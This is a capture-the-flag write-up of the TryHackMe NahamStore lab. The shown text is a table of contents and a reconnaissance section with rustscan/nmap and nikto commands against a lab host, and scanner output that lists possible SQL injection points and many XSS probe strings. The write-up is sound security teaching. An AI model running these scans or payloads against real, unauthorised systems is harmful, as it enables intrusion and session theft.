







Basics of bug bounty hunting and web application hacking.


---


#### Table of Content


1. [Table of Content](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#table-of-content)

2. [Reconnaissance](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#reconnaissance)

   1. [RUSTSCan](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#rustscan)
   2. [website enumeration / with NIKTO](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#website-enumeration-with-nikto)
   3. [SUB DOMAIN ENUMERATION level I / WITH WFUZZ](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#sub-domain-enumeration-level-i-with-wfuzz)
   4. [SUB DOMAIN ENUMERATION level II / WITH WFUZZ](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#sub-domain-enumeration-level-ii-with-wfuzz)
   5. [WEBSITE ENUMERATION http://nahamstore.thm/ WITH GOBUSTER](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#website-enumeration-http-nahamstore-thm-with-gobuster)
   6. [website enumeration http://marketing.nahamstore.thm/ with DIRB](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#website-enumeration-http-marketing-nahamstore-thm-with-dirb)
   7. [website enumeration http://stock.nahamstore.thm/ with DIRB](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#website-enumeration-http-stock-nahamstore-thm-with-dirb)
   8. [website enumeration http://nahamstore.thm:8000/ with GOBUSTER](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#website-enumeration-http-nahamstore-thm-8000-with-gobuster)
   9. [URL / http://nahamstore.thm:8000/](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#url-http-nahamstore-thm-8000)
   10. [URL / http://nahamstore.thm/staff](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#url-http-nahamstore-thm-staff)
   11. [URL / http://nahamstore.thm/returns](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#url-http-nahamstore-thm-returns)
   12. [url / http://nahamstore.thm:8000/admin/login](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#url-http-nahamstore-thm-8000-admin-login)

3. [Exploit](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#exploit)

   1. [PHP REVERSE SHELL / REMOTE CODE EXECUTION](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#php-reverse-shell-remote-code-execution)

4. [Discovery](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#discovery)

   1. [Let's look around on the Server with LINPEAS](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#let-s-look-around-on-the-server-with-linpeas)

5. [Privilege Escalation](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#privilege-escalation)

   1. [linPEAS findings](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#linpeas-findings)

6. [Weaponization](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#weaponization)

   1. [LET's HUNT FOR SQLi](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#let-s-hunt-for-sqli)

      1. [PoC - SQLi Proof of Concept](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#poc-sqli-proof-of-concept)

   2. [SQLi Payloads - Enumeration (MYSQL)](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#sqli-payloads-enumeration-mysql)

7. [Delivery](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#delivery)

   1. [SQLi Payloads - ATTACK (MySQL)](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#sqli-payloads-attack-mysql)
   2. [SQLMAP](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#sqlmap)

8. [SQLinjection (Blind)](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#sqlinjection-blind)

9. [Privilege Escalation](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#privilege-escalation)

   1. [RCE - REMOTE CODE EXECUTION ON ID POSSIBLE WITH COMMAND INJECTION](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#rce-remote-code-execution-on-id-possible-with-command-injection)
   2. [LINPEAS IT OUT](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#linpeas-it-out)

10. [Collection](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#collection)

11. [Discovery](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#discovery)

    1. [FFuF](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#ffuf)
    2. [Let's VISIT http://nahamstore-2020-dev.nahamstore.thm/api/customers/](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#let-s-visit-http-nahamstore-2020-dev-nahamstore-thm-api-customers)

12. [XSS](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#xss)

13. [Open Redirect](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#open-redirect)

14. [CSRF - Cross Site Request Forgery](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#csrf-cross-site-request-forgery)

15. [IDOR - Insecure Direct Object Reference](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#idor-insecure-direct-object-reference)

16. [LFI - Local File Inclusion](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#lfi-local-file-inclusion)

17. [SSRF - Server Side Request Forgery](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#ssrf-server-side-request-forgery)

    1. [IN A NUTSHELL](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#in-a-nutshell)

18. [XXE - XML External Entitites](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#xxe-xml-external-entitites)

    1. [SERVER THE FILES](https://salucci.ch/2023/05/30/ctf-tryhackme-nahamstore/#server-the-files)


---


#### Reconnaissance


##### RUSTSCan


```
<strong>sudo rustscan -a 10.10.64.70 --ulimit 5000 -- -oA scans/ -sC -sV --script vuln</strong>

<strong>Open 10.10.64.70:22
Open 10.10.64.70:80
Open 10.10.64.70:8000</strong>
PORT     STATE SERVICE REASON         VERSION
2<strong>2/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)</strong>
<strong>80/tcp   open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)</strong>
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-fileupload-exploiter:
|
|     Couldn't find a file-type field.
|
|     Couldn't find a file-type field.
|
|     Couldn't find a file-type field.
|
|     Couldn't find a file-type field.
|
|     Couldn't find a file-type field.
|
|     Couldn't find a file-type field.
|
|_    Couldn't find a file-type field.
<strong>| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=nahamstore.thm
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://nahamstore.thm:80/
|     Form id:
|_    Form action: /search</strong>
<strong>| http-sql-injection:
|   Possible sqli for queries:
|     http://nahamstore.thm:80/product?id=1%27%20OR%20sqlspider
|     http://nahamstore.thm:80/product?name=Sticker%2BPack&id=2%27%20OR%20sqlspider
|     http://nahamstore.thm:80/product?name=Hoodie%2B%2B%2BTee&id=1%27%20OR%20sqlspider
|     http://nahamstore.thm:80/product?id=2%27%20OR%20sqlspider
|_    http://nahamstore.thm:80/product?id=%27%20OR%20sqlspider</strong>
| http-cookie-flags:
|   /:
|     session:
|_      httponly flag not set
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /robots.txt: Robots file
|   /register/: Potentially interesting folder
|   /search/: Potentially interesting folder
|_  /staff/: Potentially interesting folder
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
<strong>8000/tcp open  http    syn-ack ttl 62 nginx 1.18.0 (Ubuntu)</strong>
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-enum:
<strong>|_  /robots.txt: Robots file</strong>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


---


##### website enumeration / with NIKTO


```
<strong>nikto -h http://nahamstore.thm/</strong>

- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.64.70
+ Target Hostname:    nahamstore.thm
+ Target Port:        80
+ Start Time:         2023-05-29 15:46:42 (GMT2)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ /: Cookie session created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ nginx/1.14.0 appears to be outdated (current is at least 1.20.1).
+ /index.php?option=search&searchword=<script>alert(document.cookie);</script>: Mambo Site Server 4.0 build 10 is vulnerable to Cross Site Scripting (XSS).
+ /index.php?dir=<script>alert('Vulnerable')</script>: Auto Directory Index 1.2.3 and prior are vulnerable to XSS attacks. See: https://vulners.com/osvdb/OSVDB:2820
+ /https-admserv/bin/index?/<script>alert(document.cookie)</script>: Sun ONE Web Server 6.1 administration control is vulnerable to XSS attacks.
+ /clusterframe.jsp?cluster=<script>alert(document.cookie)</script>: Macromedia JRun 4.x JMC Interface, clusterframe.jsp file is vulnerable to a XSS attack. See: OSVDB-2876
+ /webtop/wdk/samples/dumpRequest.jsp?J=%3Cscript%3Ealert('Vulnerable');%3C/script%3Ef: Documentum Webtop (Tomcat 4.1) is vulnerable to Cross Site Scripting (XSS).
+ /666%0a%0a<script>alert('Vulnerable');</script>666.jsp: Apache Tomcat 4.1 / Linux is vulnerable to Cross Site Scripting (XSS).
+ /servlet/MsgPage?action=test&msg=<script>alert('Vulnerable')</script>: NetDetector 3.0 and below are vulnerable to Cross Site Scripting (XSS).
+ /servlet/org.apache.catalina.ContainerServlet/<script>alert('Vulnerable')</script>: Apache-Tomcat is vulnerable to Cross Site Scripting (XSS) by invoking java classes.
+ /servlet/org.apache.catalina.Context/<script>alert('Vulnerable')</script>: Apache-Tomcat is vulnerable to Cross Site Scripting (XSS) by invoking java classes.
+ /servlet/org.apache.catalina.Globals/<script>alert('Vulnerable')</script>: Apache-Tomcat is vulnerable to Cross Site Scripting (XSS) by invoking java classes.
+ /servlet/org.apache.catalina.servlets.WebdavStatus/<script>alert('Vulnerable')</script>: Apache-Tomcat is vulnerable to Cross Site Scripting (XSS) by invoking java classes.
+ /servlets/MsgPage?action=badlogin&msg=<script>alert('Vulnerable')</script>: The NetDetector install is vulnerable to Cross Site Scripting (XSS) in its invalid login message.
+ /admin/sh_taskframes.asp?Title=Configuraci%C3%B3n%20de%20registro%20Web&URL=MasterSettings/Web_LogSettings.asp?tab1=TabsWebServer%26tab2=TabsWebLogSettings%26__SAPageKey=5742D5874845934A134CD05F39C63240&ReturnURL=\"><script>alert(document.cookie)</script>: IIS 6 on Windows 2003 is vulnerable to Cross Site Scripting (XSS) in certain error messages.
+ /SiteServer/Knowledge/Default.asp?ctr=\"><script>alert('Vulnerable')</script>: Site Server is vulnerable to Cross Site Scripting. See: OSVDB-17665
+ /_mem_bin/formslogin.asp?\"><script>alert('Vulnerable')</script>: Site Server is vulnerable to Cross Site Scripting. See: OSVDB-17666
+ /nosuchurl/><script>alert('Vulnerable')</script>: JEUS is vulnerable to Cross Site Scripting (XSS) when requesting non-existing JSP pages. See: https://seclists.org/fulldisclosure/2003/Jun/494
+ /test.shtml?%3CSCRIPT%3Ealert('Vulnerable')%3C%2FSCRIPT%3E=x: OmniHTTPD's test.shtml is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1455
+ /~/<script>alert('Vulnerable')</script>.aspx?aspxerrorpath=null: Cross site scripting (XSS) is allowed with .aspx file requests. See: http://www.cert.org/advisories/CA-2000-02.html
+ /~/<script>alert('Vulnerable')</script>.aspx: Cross site scripting (XSS) is allowed with .aspx file requests. See: http://www.cert.org/advisories/CA-2000-02.html
+ /~/<script>alert('Vulnerable')</script>.asp: Cross site scripting (XSS) is allowed with .asp file requests. See: http://www.cert.org/advisories/CA-2000-02.html
+ /ss000007.pl?PRODREF=<script>alert('Vulnerable')</script>: Actinic E-Commerce services is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1732
+ /setup.exe?<script>alert('Vulnerable')</script>&page=list_users&user=P: CiscoSecure ACS v3.0(1) Build 40 allows Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0938
+ /servlet/ContentServer?pagename=<script>alert('Vulnerable')</script>: Open Market Inc. ContentServer is vulnerable to Cross Site Scripting (XSS) in the login-error page. See: OSVDB-2689
+ /search.asp?term=<%00script>alert('Vulnerable')</script>: ASP.Net 1.1 may allow Cross Site Scripting (XSS) in error pages (only some browsers will render this).
+ /samples/search.dll?query=<script>alert(document.cookie)</script>&logic=AND: Sambar Server default script is vulnerable to Cross Site Scripting (XSS).
+ /pm_buddy_list.asp?name=A&desc=B%22%3E<script>alert('Vulnerable')</script>%3Ca%20s=%22&code=1: Web Wiz Forums ver. 7.01 and below is vulnerable to Cross Site Scripting (XSS). See: OSVDB-4599
+ /phpinfo.php3?VARIABLE=<script>alert('Vulnerable')</script>: Contains PHP configuration information and is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-1287
+ /Page/1,10966,,00.html?var=<script>alert('Vulnerable')</script>: Vignette server is vulnerable to Cross Site Scripting (XSS). Upgrade to the latest version.
+ /node/view/666\"><script>alert(document.domain)</script>: Drupal 4.2.0 RC is vulnerable to Cross Site Scripting (XSS).
+ /netutils/whodata.stm?sitename=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: OSVDB-5106
+ /msadm/user/login.php3?account_name=\"><script>alert('Vulnerable')</script>: The Sendmail Server Site User login is vulnerable to Cross Site Scripting (XSS).
+ /msadm/site/index.php3?authid=\"><script>alert('Vulnerable')</script>: The Sendmail Server Site Administrator Login is vulnerable to Cross Site Scripting (XSS).
+ /msadm/domain/index.php3?account_name=\"><script>alert('Vulnerable')</script>: The Sendmail Server Site Domain Administrator login is vulnerable to Cross Site Scripting (XSS).
+ /megabook/admin.cgi?login=<script>alert('Vulnerable')</script>: Megabook guestbook is vulnerable to Cross Site Scripting (XSS). See: OSVDB-3201
+ /mailman/listinfo/<script>alert('Vulnerable')</script>: Mailman is vulnerable to Cross Site Scripting (XSS). Upgrade to version 2.0.8 to fix.
+ /launch.jsp?NFuse_Application=<script>alert('Vulnerable')</script>: NFuse is vulnerable to cross site scripting (XSS) in the GetLastError function. Upgrade to the latest version. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0504
+ /launch.asp?NFuse_Application=<script>alert('Vulnerable')</script>: NFuse is vulnerable to cross site scripting (XSS) in the GetLastError function. Upgrade to the latest version. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0504
+ /isapi/testisa.dll?check1=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: OSVDB-5803
+ /index.php?file=Liens&op=\"><script>alert('Vulnerable');</script>: Nuked-klan 1.3b is vulnerable to Cross Site Scripting (XSS). See: OSVDB-50552
+ /index.php?action=storenew&username=<script>alert('Vulnerable')</script>: SunShop is vulnerable to Cross Site Scripting (XSS) in the signup page.
+ /index.php?action=search&searchFor=\"><script>alert('Vulnerable')</script>: MiniBB is vulnerable to Cross Site Scripting (XSS). See: http://www.minibb.net
+ /index.php/\"><script><script>alert(document.cookie)</script><: eZ publish v3 and prior allow Cross Site Scripting (XSS).
+ /index.php/content/search/?SectionID=3&SearchText=<script>alert(document.cookie)</script>: eZ publish v3 and prior allow Cross Site Scripting (XSS).
+ /index.php/content/advancedsearch/?SearchText=<script>alert(document.cookie)</script>&PhraseSearchText=<script>alert(document.cookie)</script>&SearchContentClassID=-1&SearchSectionID=-1&SearchDate=-1&SearchButton=Search: eZ publish v3 and prior allow Cross Site Scripting (XSS).
+ /html/cgi-bin/cgicso?query=<script>alert('Vulnerable')</script>: This CGI is vulnerable to Cross Site Scripting (XSS).
+ /error/500error.jsp?et=1<script>alert('Vulnerable')</script>;: Macromedia Sitespring 1.2.0(277.1) on Windows 2000 is vulnerable to Cross Site Scripting (XSS) in the error pages. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1027
+ /cleartrust/ct_logon.asp?CTLoginErrorMsg=<script>alert(1)</script>: RSA ClearTrust allows Cross Site Scripting (XSS). See: OSVDB-50619
+ /cgi-local/cgiemail-1.6/cgicso?query=<script>alert('Vulnerable')</script>: This CGI is vulnerable to Cross Site Scripting (XSS). See: https://vulners.com/osvdb/OSVDB:651
+ /cgi-local/cgiemail-1.4/cgicso?query=<script>alert('Vulnerable')</script>: This CGI is vulnerable to Cross Site Scripting (XSS). See: https://vulners.com/osvdb/OSVDB:651
+ /ca000007.pl?ACTION=SHOWCART&REFPAGE=\"><script>alert('Vulnerable')</script>: Actinic E-Commerce services is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1732
+ /ca000001.pl?ACTION=SHOWCART&hop=\"><script>alert('Vulnerable')</script>&PATH=acatalog%2f: Actinic E-Commerce services is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1732
+ /bb000001.pl<script>alert('Vulnerable')</script>: Actinic E-Commerce services is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1732
+ /article.cfm?id=1'<script>alert(document.cookie);</script>: With malformed URLs, ColdFusion is vulnerable to Cross Site Scripting (XSS).
+ /apps/web/vs_diag.cgi?server=<script>alert('Vulnerable')</script>: Zeus 4.2r2 (webadmin-4.2r2) is vulnerable to Cross Site Scripting (XSS). See: https://www.mail-archive.com/bugtraq@securityfocus.com/msg11627.html
+ /add.php3?url=ja&adurl=javascript:<script>alert('Vulnerable')</script>: Admanager 1.1 is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/vuln-dev/2002/Apr/270
+ /a?<script>alert('Vulnerable')</script>: Server is vulnerable to Cross Site Scripting (XSS) in the error message if code is passed in the query-string. This may be a Null HTTPd server.
+ /a.jsp/<script>alert('Vulnerable')</script>: JServ is vulnerable to Cross Site Scripting (XSS) when a non-existent JSP file is requested. Upgrade to the latest version of JServ.
+ /<script>alert('Vulnerable')</script>.thtml: Server is vulnerable to Cross Site Scripting (XSS).
+ /<script>alert('Vulnerable')</script>.shtml: Server is vulnerable to Cross Site Scripting (XSS).
+ /<script>alert('Vulnerable')</script>.jsp: Server is vulnerable to Cross Site Scripting (XSS).
+ /<script>alert('Vulnerable')</script>.aspx: Cross site scripting (XSS) is allowed with .aspx file requests (may be Microsoft .net).
+ /<script>alert('Vulnerable')</script>: Server is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0681
+ /mailman/admin/ml-name?\"><script>alert('Vulnerable')</script>;: Mailman is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0855
+ /index.php?rep=<script>alert(document.cookie)</script>: GPhotos index.php rep Variable XSS. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2397
+ /fcgi-bin/echo?foo=<script>alert('Vulnerable')</script>: Fast-CGI has two default CGI programs (echo.exe/echo2.exe) vulnerable to Cross Site Scripting (XSS). See: OSVDB-700
+ /fcgi-bin/echo2?foo=<script>alert('Vulnerable')</script>: Fast-CGI has two default CGI programs (echo.exe/echo2.exe) vulnerable to Cross Site Scripting (XSS). See: OSVDB-3954
+ /fcgi-bin/echo.exe?foo=<script>alert('Vulnerable')</script>: Fast-CGI has two default CGI programs (echo.exe/echo2.exe) vulnerable to Cross Site Scripting (XSS). See: OSVDB-700
+ /fcgi-bin/echo2.exe?foo=<script>alert('Vulnerable')</script>: Fast-CGI has two default CGI programs (echo.exe/echo2.exe) vulnerable to Cross Site Scripting (XSS). See: OSVDB-3954
+ /apps/web/index.fcgi?servers=&section=<script>alert(document.cookie)</script>: Zeus Admin server 4.1r2 is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1785
+ /index.php?err=3&email=\"><script>alert(document.cookie)</script>: MySQL Eventum is vulnerable to XSS in the email field. See: OSVDB-12606
+ /index.php?vo=\"><script>alert(document.cookie);</script>: Ralusp Sympoll 1.5 is vulnerable to Cross Site Scripting (XSS). See: OSVDB-2790
+ /shopping/shopdisplayproducts.asp?id=1&cat=<script>alert('test')</script>: VP-ASP prior to 4.50 are vulnerable to XSS attacks. See: https://seclists.org/bugtraq/2004/Jun/210
+ /shopdisplayproducts.asp?id=1&cat=<script>alert(document.cookie)</script>: VP-ASP Shopping Cart 4.x shopdisplayproducts.asp XSS. See: https://seclists.org/bugtraq/2004/Jun/210
+ /login/: This might be interesting.
+ /register/: This might be interesting.
+ /staff/: This might be interesting.
+ /firewall/policy/dlg?q=-1&fzone=t<script>alert('Vulnerable')</script>>&tzone=dmz: Fortigate firewall 2.50 and prior contains several XSS vulnerabilities in various administrative pages. See: https://securitytracker.com/id/1008158
+ /firewall/policy/policy?fzone=internal&tzone=dmz1<script>alert('Vulnerable')</script>: Fortigate firewall 2.50 and prior contains several XSS vulnerabilities in various administrative pages. See: https://securitytracker.com/id/1008158
+ /antispam/listdel?file=blacklist&name=b<script>alert('Vulnerable')</script>&startline=0: Fortigate firewall 2.50 and prior contains several XSS vulnerabilities in various administrative pages. See: OSVDB-3295
+ /antispam/listdel?file=whitelist&name=a<script>alert('Vulnerable')</script>&startline=0(naturally): Fortigate firewall 2.50 and prior contains several XSS vulnerabilities in various administrative pages. See: OSVDB-3295
+ /theme1/selector?button=status,monitor,session&button_url=/system/status/status,/system/status/moniter\"><script>alert('Vulnerable')</script>,/system/status/session: Fortigate firewall 2.50 and prior contains several XSS vulnerabilities in various administrative pages. See: OSVDB-3296
+ /theme1/selector?button=status,monitor,session&button_url=/system/status/status\"><script>alert('Vulnerable')</script>,/system/status/moniter,/system/status/session: Fortigate firewall 2.50 and prior contains several XSS vulnerabilities in various administrative pages. See: OSVDB-3296
